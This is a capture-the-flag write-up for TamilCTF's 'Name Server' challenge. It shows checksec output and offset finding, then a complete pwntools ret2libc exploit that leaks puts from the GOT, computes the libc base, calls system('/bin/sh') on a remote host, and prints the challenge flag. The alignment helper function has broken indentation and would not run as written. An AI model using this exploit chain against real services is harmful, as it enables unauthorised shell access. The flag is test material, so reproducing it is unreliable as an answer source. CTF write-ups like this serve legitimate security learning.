

# TamilCTF

# NAME SEVER 214 Points ,58 solves


## Checksec Output
```bash
╭─ ~/Desktop/Tamilctf/nameserver/nameserver │ sam0x@parrot                                                                                                                                 ✔ 
╰─ checksec name-serv 
[*] '/home/sam0x/Desktop/Tamilctf/nameserver/nameserver/name-serv'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


## Analysing the binary on Ghidra




#### There is no input bound checking 
#### NX is enabled so no shellcoding
#### We can use basic ROP chaining attack to exploit this

## Exploiting

#### TO FIND / CONSTRAINS
           
The lic version is unknown 
			
*since we  know it's a 64 bit binary we just cant directly modify the rsp *
*We cant overwrite RSP with 8 byte value , only 6 Bytes can be used else we get general protextion error * (Canonical and non canonical address comes to play )*
#### Using GEF & finding offset

![[Pasted image 20210930134637.png]]


*we overflow the rbp after 32 bytes *
*so to overwrite the rsp we neet to overwrite rbp +6 *
*i.e we overflow rbp after 32 bytes then the rbp value to rsp value*
*offset = 40*

## The exploitation part


      from pwn import *

      offset = b'A'*40

      ##pwntools context

      context.update(arch='amd64', os='linux')
      p=remote('3.97.113.25', 9001)
      # p=process('name_server_patched')
      elf=ELF('./name-serv',False)
      rop=ROP(elf)


      ##leaking GOT address
      puts_plt=elf.plt['puts']
      puts_got=elf.got['puts']
      main_plt=elf.symbols['main']
      pop_rdi= (rop.find_gadget(['pop rdi', 'ret']))[0]
      ret= (rop.find_gadget(['ret']))[0]


      payload = offset +p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_plt) 

      p.recvuntil(b':')
      p.sendline(payload)
      recieved = p.recvline().strip()

      # Parse leaked address

      log.info(f"Len rop1: {len(payload)}")
      leak = u64(recieved.ljust(8, b"\x00"))
      log.info("libc address of puts :" + hex(leak))

      ##setting up libc base

      libc=ELF('libc6_2.31-0ubuntu9_amd64.so')
      libc.address = leak - libc.symbols['puts'] #Save libc base
      log.info("libc base @ %s" % hex(libc.address))


      ##Systm(/bin/sh)Payload

      bin_sh = next(libc.search(b"/bin/sh\x00"))
      system=libc.symbols['system']

      log.info("Bin/sh :" + (hex(bin_sh)))
      log.info("System :" + (hex(system)))


      def generate_payload_aligned(ropp):
        payload1 = offset + ropp
          if (len(payload1) % 16) == 0:
          return payload1

          else:
               payload2 = offset + p64(ret) + ropp

           if (len(payload2) % 16) == 0:
                   log.info("Payload aligned successfully")
                   return payload2
               else:
                   log.warning(f"I couldn't align the payload! Len: {len(payload1)}")
                   return payload1

      payload2= offset + p64(ret)+p64(pop_rdi)+p64(bin_sh)+p64(system)

      log.info("length of payload2 is "  + str(len(payload2)))
      print(p.recvuntil(b':'))
      p.sendline(payload2)
      p.interactive()


*WE GET THE FLAG *
## TamilCTF{ReT_1s_M0rE_p0wErFu1_a5_LIBC}
